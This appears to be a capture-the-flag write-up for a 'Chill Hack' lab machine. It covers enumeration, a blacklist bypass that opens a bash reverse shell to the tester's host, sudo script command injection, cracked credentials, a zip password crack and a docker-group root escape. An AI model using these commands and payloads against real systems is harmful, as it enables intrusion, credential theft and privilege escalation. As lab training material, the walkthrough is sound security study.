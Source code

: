 > Chill Hack

**export IP=10.10.162.118**

# Nmap 

sudo nmap -sC -sV -T4 -Pn -vv -p- -oN nmap/initial $IP

```
21/tcp open  ftp     syn-ack ttl 63 vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03 04:33 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.8.107.21
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 7EEEA719D1DF55D478C68D9886707F17
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
```

# Gobuster

sudo gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 20 -x .txt,.php,.html,.js,.bak,.tar,.zip,.cgi -o gobuster/initial

```
/about.html (Status: 200)
/contact.html (Status: 200)
/contact.php (Status: 200)
/news.html (Status: 200)
/images (Status: 301)
/blog.html (Status: 200)
/index.html (Status: 200)
/css (Status: 301)
/team.html (Status: 200)
/js (Status: 301)
/fonts (Status: 301)
/secret (Status: 301)
```

# FTP - Anonymous login

note.txt

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

And in /secret directory we can execute certain commands like whoami. And from the above note we have to bypass the filter here and gain a reverse shell.

Looking at some writeups, we can bypass these types after a command which isn't blacklisted and followed by ;.

```
echo "";bash -c "bash -i >& /dev/tcp/10.8.107.21/1234 0>&1"
```

And we are in as www-data.

Running linpeas we got a hit.

sudo -l

```
User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

# .helpline.sh

```
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

Looks like the inputs are passed as such and can be accessed by appar user without password.

```
Let's try running the script as apaar.

sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: in
in
Hello user! I am in,  Please enter your message: /bin/bash
/bin/bash
```

We are in as apaar!! We got the user flag!!

And here looking at index.php show what commands were restricted in that command box.

```
$cmd = $_POST['command'];
$store = explode(" ",$cmd);
$blacklist = array('nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls');
```

# local.txt

```
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```

# Some more Enumeration

Running Linpeas we got some info. But befor that let's take a look at /var/www. We got files directory.

We got three php files `hacker.php`, `account.php` and `index.php`.

# index.php

```
$con = new PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
```

And we got some creds. here. Can't login through SSH so let's move on to mysql.

1. show databases;

```
+--------------------+
| Database           |
+--------------------+
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webportal          |
+--------------------+
```

2. use webportal;
3. show tables;

```
+---------------------+
| Tables_in_webportal |
+---------------------+
| users               |
+---------------------+
```

4. use tables;
5. select * from users;

```
+----+-----------+----------+-----------+----------------------------------+
| id | firstname | lastname | username  | password                         |
+----+-----------+----------+-----------+----------------------------------+
|  1 | Anurodh   | Acharya  | Aurick    | 7e53614ced3640d5de23f111806cc4fd |
|  2 | Apaar     | Dahal    | cullapaar | 686216240e5af30df0501e53c789a649 |
+----+-----------+----------+-----------+----------------------------------+
```

Putting it in crackstation we can crack the hashes of both.

## CREDENTIALS

```
Anurodh:masterpassword
Apaar:dontaskdonttell
```

Let's login as anurodh! Couldn't!!! Maybe these are rabbit holes!

In /var/www/files we din't check the images directory. So let's check it and downloading the image we can use steghide and find `backup.zip`. But it's password protected.

# fcrackzip

fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' backup.zip

```
PASSWORD FOUND!!!!: pw == pass1word
```

We got source_code.php. Looking at it we come across a base64 password and it's anurodh's.

# CREDENTIALS

`anurodh`:`!d0ntKn0wmYp@ssw0rd`

We are finally in as anurodh!!

# Privilege Escalation

And he is in docker group!

id

```
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

Let's abuse it using GTFO bins.

`docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

And we are root!! And the root flag is there as `proof.txt`

# root.txt

```
{ROOT-FLAG: w18gfpn9xehsgd3tovhk0hby4gdp89bg}
```